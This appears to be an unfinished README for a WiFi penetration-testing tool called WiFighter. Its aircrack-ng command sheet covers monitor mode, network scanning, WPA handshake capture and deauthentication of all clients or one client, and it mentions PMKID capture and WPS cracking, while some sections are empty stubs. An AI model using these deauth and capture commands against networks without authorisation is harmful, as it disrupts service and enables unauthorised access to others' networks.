 # WiFighter
Easy-to-use WiFI pen-testing tool for Debian build on aircrack-ng written in python and bash

## Dependecies

```c
apt install -y aircrack-ng hcxdumptool hcxpcapngtool hashcat
```



## WiFi Scan & Select
```python
  import pywifi, scapy
```



## Threat Hunt
```python
  import pywifi, scapy
```



## Attack mode

### 1. Aircrack guide

- WPA, WEP Cracking
- WiFi Scanning
- AP Deauth (DoS)

### Monitor mode

Set interface to monitor
```c
airmon-ng start <INTERFACE>
```

Set interface to managed
```c
airmon-ng stop <INTERFACE>mon
```

### Scan nearby WiFi's

Scan all
```c
airodump-ng <INTERFACE>mon
```

Scan 2.4GHz WiFi's
```c
airodump-ng --band gb <ESSID> <INTERFACE>mon
```

Scan 5GHz WiFi's
```c
airodump-ng --band a <ESSID> <INTERFACE>mon
```

Listen for handshake of specified AP
```c
airodump-ng -c <CHANNEL> -b <BSSID> -w OUTPUT_PATH <INTERFACE>mon
```

### Deauth clients (force handshake)

Deauth all (broadcast)
```c
aireplay-ng -0 1 -a <BSSID> <INTERFACE>mon
```

Deauth client
```c
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>mon
```



### 2. Hcxtools guide - TESTOVAT U TATY, TP-Link OneMesh feature

- PMKID Capture
- Converting raw .pcapng captures to hashcat readable formats

### Installation

```c
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
```



### 3. Reaver or Bully ??

- Cracking WPS





